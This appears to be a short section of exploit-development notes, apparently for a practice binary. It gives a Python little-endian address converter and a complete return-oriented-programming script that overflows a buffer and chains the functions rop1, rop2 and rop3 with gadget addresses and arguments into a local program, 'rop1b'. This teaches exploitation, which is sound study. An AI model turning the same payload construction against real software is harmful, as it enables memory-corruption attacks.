## Useful Python

### Little Endian Converter

Below is a useful python snippet that converts a given memory address, i.e `0x565561d4`, to it's little-endian format, i.e `\\xd4\\x61\\x55\\x56`:

```python
import struct
'\\x' + '\\x'.join(x.encode('hex') for x in struct.pack('I', 0x565561d4)).encode("utf-8")
'\\xd4\\x61\\x55\\x56'
```

### Payload Executor

Below shows an easy way to build the stack using `struct.pack` that does not require us to deal with little-endiannes when specifying memory addresses in the exploit:

```python
#!/usr/bin/env python
import os
import struct

pop_ret = 0x5655601e
pop_pop_ret = 0x5655630a
rop1 = 0x565561b9
rop2 = 0x565561e4
rop3 = 0x56556212
exit = 0xf7e02950

# Build the stack
# Overflow
payload =  "A"*108
payload += "BBBB"

# Address of rop1()
payload += struct.pack("I", rop1)

# Address of rop2(), address of pop ret and an argument for rop2()
payload += struct.pack("I", rop2)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xbeefbeef)

# Address of rop3(), adress of pop pop ret, and arguments 1 and 2
payload += struct.pack("I", rop3)
payload += struct.pack("I", pop_pop_ret)
payload += struct.pack("I", 0xdeaddead)
payload += struct.pack("I", 0xc0dec0de)

# Address of exit()
payload += struct.pack("I", exit)

# Execute the full payload
os.system("./rop1b '" + payload + "'")
```
